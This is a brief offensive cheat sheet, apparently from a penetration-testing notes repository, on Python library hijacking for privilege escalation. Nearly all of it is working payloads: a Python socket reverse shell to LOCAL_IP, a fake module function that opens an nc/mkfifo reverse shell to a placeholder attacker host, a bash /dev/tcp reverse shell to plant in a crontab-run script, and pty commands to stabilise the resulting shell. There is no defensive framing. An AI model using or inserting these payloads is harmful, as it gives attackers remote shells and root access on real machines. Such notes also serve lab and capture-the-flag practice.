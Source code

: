 ## Python Library Hijack

- base64

````python
#!/usr/bin/python3  
from os import dup2  
from subprocess import run  
import socket  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("LOCAL_IP",1234))   
dup2(s.fileno(),0)   
dup2(s.fileno(),1)   
dup2(s.fileno(),2)   
run(["/bin/bash","-i"])
````

- OS

```python
import os

def choice(a):

	os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ATTCK PORT>/tmp/f")
```

- Edit an script running in a crontab:

```bash
bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1
```


- How to stabilise a shell:
````shell
python -c "import pty; pty.spawn('/bin/bash')" 
python3 -c "import pty; pty.spawn('/bin/bash')" 
````
